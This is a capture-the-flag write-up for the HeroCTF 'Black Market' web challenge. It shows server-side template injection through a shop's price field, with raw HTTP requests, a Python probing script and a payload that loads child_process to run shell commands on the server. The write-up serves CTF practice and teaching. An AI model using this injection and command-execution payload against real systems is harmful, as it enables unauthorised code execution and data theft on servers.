





# Black Market

We've given a url `http://chall2.heroctf.fr:3050`. 



`Basket` feature shows `403`.



We can buy stuff navigating to `Our services` 



If we buy any item and go back to `basket` we see it shows price and details. 



We see that it shows price and number of services purchased. It also generates new bitcoin address on every refresh. The `Buy` request look like below. 

```html
POST /buy HTTP/1.1
Host: chall2.heroctf.fr:3050
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 29
Origin: http://chall2.heroctf.fr:3050
DNT: 1
Connection: close
Referer: http://chall2.heroctf.fr:3050/services/malware

id=2&type=malware&price=0.053
```

Trying SSTI attempt succeeded with `{7*7}` input. 

```html
POST /buy HTTP/1.1
Host: chall2.heroctf.fr:3050
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 27
Origin: http://chall2.heroctf.fr:3050
DNT: 1
Connection: close
Referer: http://chall2.heroctf.fr:3050/services/ddos
Cookie: basket=eyJwdXJjaGFzZXMiOnsiMCI6eyJ0eXBlIjoibWFsd2FyZSIsImlkIjoyLCJwcmljZSI6IjAuMDUzIn19fQ%3D%3D

id=1&type=ddos&price={7*7}
```



Looking at the response headers we see that the server is hosted using NodeJS Express framework. 

```html
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: basket=eyJwdXJjaGFzZXMiOnsiMCI6eyJ0eXBlIjoibWFsd2FyZSIsImlkIjoyLCJwcmljZSI6IjAuMDUzIn19fQ%3D%3D; Max-Age=900; Path=/; Expires=Mon, 26 Apr 2021 05:23:06 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 17
ETag: W/"11-KLSLPG1b7/ut5NWgA8Up/1GscNo"
Date: Mon, 26 Apr 2021 05:08:06 GMT
Connection: close

{"ok":"Success."}
```

We can try payloads related to either Jade or Handlerbars template engines. I wrote a simple python script to explore the injection. 

```python
import re
import sys
import requests

r = requests.post('http://chall2.heroctf.fr:3050/buy', data={'id':'1',"type":'malware',"price":sys.argv[1]})
c = r.headers['Set-Cookie'].split('=')[1].split(';')[0]
r = requests.get('http://chall2.heroctf.fr:3050/basket', cookies={'basket':c})
print(re.findall(r'Total:.*',r.text)[0])
```

Running this script with an argument `{{this}}` gives me `[object object]` output. 

```bash
python3 market.py 

Total: [object Object]<br/>
```

This confirms that the application is using Handlebars template engine. We can read more from [this](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html) blogpost. `env` can be accessed using `global.process.env` and the JavaScript object to string conversion can be done using `JSON.stringify` method. 

```bash
python3 market.py '{{JSON.stringify(process.env)}}'

Total: {&#34;NODE_VERSION&#34;:&#34;14.16.1&#34;,&#34;HOSTNAME&#34;:&#34;ca7ae5cfca55&#34;,&#34;YARN_VERSION&#34;:&#34;1.22.5&#34;,&#34;HOME&#34;:&#34;/root&#34;,&#34;PATH&#34;:&#34;/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&#34;,&#34;PWD&#34;:&#34;/usr/src/app&#34;}<br/>
```

Output is gibberish :P but we can read stuff. Flag can be printed using below payload. 

```bash
python3 market.py '{{JSON.stringify(process.mainModule.constructor._load("child_process").exec("cat flag.txt"))}}'

Total: &#34;Hero{g3t_0n_my_l3v4l_4nd_fl3x}\n&#34;<br/>
```

